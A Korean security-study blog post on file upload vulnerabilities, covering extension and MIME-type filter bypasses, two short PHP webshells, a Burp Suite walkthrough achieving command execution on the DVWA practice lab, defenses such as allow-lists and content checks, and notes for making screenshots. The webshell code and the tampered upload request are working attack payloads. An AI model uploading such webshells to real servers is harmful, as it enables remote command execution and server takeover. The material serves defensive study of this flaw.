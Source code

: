```yaml
---
layout: post
title: "파일 업로드 취약점 공부"
date: 2025-08-28 17:00:00 +0900
categories: [웹 해킹]
---
```


### 1. 개요

파일 업로드 취약점은 서버 측에서 업로드되는 파일의 확장자나 내용을 제대로 검증하지 않을 때 발생한다. 공격자는 이 취약점을 이용해 악의적인 스크립트 파일(웹쉘)을 서버에 업로드하여 원격에서 시스템 명령어를 실행(RCE)하고 최종적으로 서버의 제어권을 획득할 수 있다.

이 공격은 [A04: 안전하지 않은 설계](https://hamap0.github.io/projects/owasp-top-10/2025/08/28/A04_Insecure-Design.html) 프로젝트 보고서에서 다룬 핵심 주제이다.

---

### 2. 주요 우회 기법

단순히 `.php` 파일을 업로드하는 것은 대부분의 필터링에 막히므로 이를 우회하는 기법이 필요하다.

*   **확장자 필터링 우회:**
    서버가 특정 확장자를 블랙리스트 방식으로 필터링할 때 사용된다. `.php` 대신 `.phtml` · `.php3` · `.inc` 등 웹 서버가 PHP로 해석할 수 있는 다른 확장자를 시도하거나 `shell.pHp`처럼 대소문자를 혼용하여 우회를 시도할 수 있다.

*   **MIME 타입 검증 우회:**
    서버가 파일 확장자 대신 HTTP 요청 헤더의 `Content-Type`을 기준으로 파일 종류를 판단할 때 사용된다. 이 값은 클라이언트가 보내는 정보이므로 Burp Suite와 같은 프록시 툴을 이용해 `Content-Type: application/x-php`를 `Content-Type: image/jpeg`와 같이 정상적인 이미지 파일처럼 조작하여 필터링을 우회할 수 있다.


---

### 3. 웹쉘 (Webshell)

웹쉘은 웹 서버를 통해 시스템 명령어를 실행할 수 있도록 만들어진 스크립트 파일이다.

#### **기본 웹쉘**
가장 단순한 형태의 웹쉘은 URL 파라미터를 통해 전달받은 명령어를 그대로 실행하고 결과를 출력한다. `cmd`라는 파라미터로 명령어를 전달받는 예시이다.
```php
<?php
  if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
  }
?>
```
   ![FileuploadWebshell](/assets/images/FUpload_1.png)

#### **개선된 웹쉘 (간이 파일 브라우저)**
조금 더 발전된 형태의 웹쉘은 단순히 명령어를 실행하는 것을 넘어 서버의 파일 시스템을 탐색하는 기능을 포함할 수 있다. 아래 코드는 `path` 파라미터로 전달된 경로의 파일과 디렉터리 목록을 보여주는 간단한 파일 브라우저 역할을 한다.
```php
<?php
  $path = isset($_GET['path']) ? $_GET['path'] : '.';
  $files = scandir($path);
  
  foreach($files as $file) {
    // 현재 디렉터리(.)와 상위 디렉터리(..) 링크 생성
    if ($file == '.') {
      echo "<a href='?path={$path}'>.</a><br>";
    } elseif ($file == '..') {
      $parent_path = dirname($path);
      echo "<a href='?path={$parent_path}'>..</a><br>";
    } else {
      echo $file . "<br>";
    }
  }
?>
```

---

### 4. 사용 예시: Burp Suite를 이용한 MIME 타입 우회

이 예시는 서버가 `Content-Type` 헤더를 신뢰할 때 발생하는 파일 업로드 취약점을 공격하는 과정을 보여준다.

#### **1. 요청 가로채기 (Intercept)**
1.  `shell.php` 파일을 준비하고 Burp Suite와 브라우저 프록시를 설정한다.
2.  Burp Suite의 `Proxy` > `Intercept` 탭을 `On` 상태로 설정한다.
3.  DVWA의 `File Upload` 페이지에서 `shell.php` 파일을 선택하고 `Upload` 버튼을 클릭하여 요청을 가로챈다.

#### **2. Content-Type 헤더 변조**
1.  가로챈 `POST` 요청 패킷에서 `Content-Type` 헤더를 확인한다. 초기 값은 `application/x-php`로 설정되어 있다.
    ```http
    ...
    Content-Disposition: form-data; name="uploaded"; filename="shell.php"
    Content-Type: application/x-php

    <?php system($_GET['cmd']); ?>
    ...
    ```
2.  `Content-Type: application/x-php` 라인을 `Content-Type: image/jpeg`로 수정한다.
3.  `Forward` 버튼을 눌러 변조된 요청을 서버로 전송한다.

#### **3. 업로드 확인 및 웹쉘 실행**
1.  서버의 필터링 로직이 `Content-Type`만 검증했다면, 파일은 정상적으로 업로드되고 저장 경로(예: `../../hackable/uploads/shell.php`)가 출력된다.
2.  브라우저에서 해당 경로에 `?cmd=whoami` 파라미터를 추가하여 접속한다.
3.  화면에 `www-data`가 출력되면 웹쉘 업로드 및 명령어 실행에 성공한 것이다.
   ![FileuploadBurp](/assets/images/Fupload_2.png)

---

### 5. 방어 방안

*   **확장자 화이트리스트:** `.php`, `.jsp` 등 위험한 확장자를 금지하는 블랙리스트 방식 대신 `.jpg` · `.png` · `.gif` 와 같이 허용된 확장자만 업로드할 수 있도록 화이트리스트 방식을 사용해야 한다.
*   **파일 내용 검증:** 확장자나 MIME 타입은 조작될 수 있으므로 `getimagesize()`와 같은 함수를 이용해 파일의 내용이 실제 이미지 데이터인지 검증해야 한다.
*   **업로드 경로 제어:** 업로드된 파일이 저장되는 디렉터리는 웹에서 직접 접근할 수 없는 경로(Web Root 외부)에 위치시키거나 만약 웹에서 접근해야 한다면 해당 디렉터리의 스크립트 실행 권한을 제거해야 한다.

<hr class="short-rule">





### 시각 자료(이미지) 제작을 위한 스크립트

#### **기본 웹쉘 실행 이미지 제작**

1.  (준비) 위 `3. 웹쉘` 섹션의 '기본 웹쉘' 코드를 `shell.php` 파일로 저장합니다.
2.  DVWA의 `File Upload` 페이지를 통해 `shell.php` 파일을 업로드합니다.
3.  업로드가 성공하면 파일이 저장된 경로(예: `/hackable/uploads/shell.php`)가 화면에 표시됩니다.
4.  웹 브라우저에서 해당 경로로 접근하되, URL 끝에 실행할 명령어를 쿼리 스트링으로 추가합니다.
    *   **URL 예시:** `http://192.9.200.11/hackable/uploads/shell.php?cmd=whoami`
5.  브라우저 화면에 명령어의 결과인 `www-data`가 출력될 것입니다.
6.  이 상태의 브라우저 화면 전체를 스크린샷으로 찍습니다.
7.  이미지 편집 프로그램을 사용하여 스크린샷을 엽니다.
8.  두 부분에 하이라이트를 적용하여 원인과 결과를 명확히 보여줍니다.
    *   **원인:** 주소창의 `?cmd=whoami` 부분
    *   **결과:** 페이지 본문에 출력된 `www-data`
9.  수정된 이미지를 저장하여 게시글에 삽입합니다.

#### **MIME 타입 우회 공격 이미지 제작**

1.  **Burp Suite 요청 변조 화면 캡처:**
    *   `4. 사용 예시`의 2단계 과정에서, `Content-Type` 헤더를 `image/jpeg`로 수정한 Burp Suite의 `Proxy` 탭 화면을 스크린샷으로 찍어 **`MIME_Bypass_Request.png`**로 저장한다.
2.  **웹쉘 실행 결과 화면 캡처:**
    *   3단계 과정에서, `whoami` 명령어의 결과(`www-data`)가 출력된 브라우저 화면을 스크린샷으로 찍어 **`MIME_Bypass_Result.png`**로 저장한다.
3.  **최종 이미지 편집:**
    *   이미지 편집 프로그램에서 `MIME_Bypass_Request.png`(왼쪽)와 `MIME_Bypass_Result.png`(오른쪽)를 나란히 배치한다.
    *   왼쪽 이미지에서는 `Content-Type: image/jpeg`로 수정된 라인에 하이라이트를 적용한다.
    *   오른쪽 이미지에서는 주소창의 `...shell.php?cmd=whoami` 부분과 본문의 `www-data` 출력 결과에 하이라이트를 적용한다.
    *   두 이미지 사이에 화살표를 추가하여 왼쪽의 요청 변조가 오른쪽의 RCE 성공으로 이어졌음을 시각적으로 연결한다.
    *   수정된 이미지를 게시글에 삽입한다.